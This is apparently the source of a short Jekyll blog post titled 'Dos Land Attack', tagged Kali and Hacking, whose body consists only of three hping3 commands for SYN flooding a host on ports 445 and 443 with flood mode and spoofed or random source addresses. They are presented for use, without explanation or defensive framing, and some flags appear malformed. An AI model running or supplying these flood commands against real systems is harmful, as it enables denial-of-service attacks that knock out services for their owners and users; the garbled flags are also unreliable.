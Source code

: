 ```yaml
---
layout: post
title: Dos Land Attack
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: Hping3
---
```


{% highlight command %}
hping3 -V -C 10000000 -d 120 -S -10 64 -p 445 -S 445 --flood --rand-source 192.168.xxx.xxx
hping3 -i u1000 -S -p 443 192.168.xxx.xxx
hping3 -q -n 10.0.0.1 -S -s 53 --keep -p 445 --flood 192.168.xxx.xxx
{% endhighlight %}
